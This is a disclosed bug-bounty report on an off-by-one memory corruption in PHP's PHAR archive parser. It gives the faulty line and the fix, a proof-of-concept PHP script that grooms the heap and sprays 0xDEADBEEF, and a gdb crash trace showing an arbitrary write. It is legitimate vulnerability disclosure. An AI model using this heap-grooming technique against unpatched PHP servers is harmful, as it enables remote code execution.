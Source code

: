 # Memory corruption when parsing a hostile PHAR archive

## Report Details
- **Report ID**: 195586
- **URL**: https://hackerone.com/reports/195586
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-03T20:48:44.541Z
- **Disclosed**: 2019-10-13T09:31:06.661Z

## Reporter
- **Username**: aerodudrizzt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The vulnerability was reported to PHP's security team and was fixed:
* Ticket 73768: https://bugs.php.net/bug.php?id=73768
* Git commit: https://gist.github.com/anonymous/84961673ee34be7f1a52b83dd872af50

The PHAR module in all PHP versions (5.6.9 and below, 7.1.0 and below) is vulnerable to a memory corruption and possibly a remote code execution attack when parsing a hostile PHAR archive. Here are the technical details:
* File: ext\phar\phar.c
* Function:  phar_parse_pharfile()

The function incorrectly '\0' terminates the buffer in case the alias does not match:
```
buffer[tmp_len] = '\0';
```
When a hostile archive sets tmp_len to be manifest_length - 14, this will write the '\0' just outside the buffer (off-by-one), thus overriding emalloc's metadata.

The assignment should be replaced with:
```
buffer[MIN(tmp_len, (size_t)(endbuffer - buffer) - 1)] = '\0';
```

This vulnerability was demonstrated with this PHP script:
```
<?php
	$length = 192;
	$array  = array();
	$x = 0;
	while ( $x < 4 ){
		$array[$x++] = str_repeat($x, ($length - 20));
	}

	try{
		$p = Phar::LoadPhar('example_hostile.phar', 'alias.phar');
	}
	catch(Exception $e){
		echo "Failed to load the phar archive\n";
	}

	$s = str_repeat("\xef\xbe\xad\xde", ($length - 20) / 4);
	while ( $x < 8 ){
		$array[$x++] = str_repeat($x, ($length - 20));
	}
?>
```
When parsing the hostile PHAR archive it caused a crash when trying to write data into the 0xDEADBEEF address:
```
#0  0x80260e75 in _emalloc ()
#1  0x802610d8 in _safe_emalloc ()
#2  0x801fac73 in zif_str_repeat ()
#3  0x8031b662 in execute_internal ()
#4  0x80274dce in dtrace_execute_internal ()
#5  0x8030cf65 in ?? ()
#6  0x802c56da in execute_ex ()
#7  0x80274c35 in dtrace_execute_ex ()
#8  0x8031d1b6 in zend_execute ()
#9  0x8028510d in zend_execute_scripts ()
#10 0x80224054 in php_execute_script ()
#11 0x8031f01f in ?? ()
#12 0x800fe64f in main ()
(gdb) info reg
eax            0xdeadbeef	-559038737
ecx            0xb5000074	-1258291084
edx            0xd	13
ebx            0xb5000040	-1258291136
esp            0xbffedf80	0xbffedf80
ebp            0xb50131e0	0xb50131e0
esi            0x7	7
edi            0x1	1
eip            0x80260e75	0x80260e75 <_emalloc+101>
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```
This demonstrates how this memory corruption can be used to achieve a memory write in an arbitrary memory address in the PHP's process, thus maybe enabling a remote code exploitation over the targeted PHP server.

## Attachments
No attachments
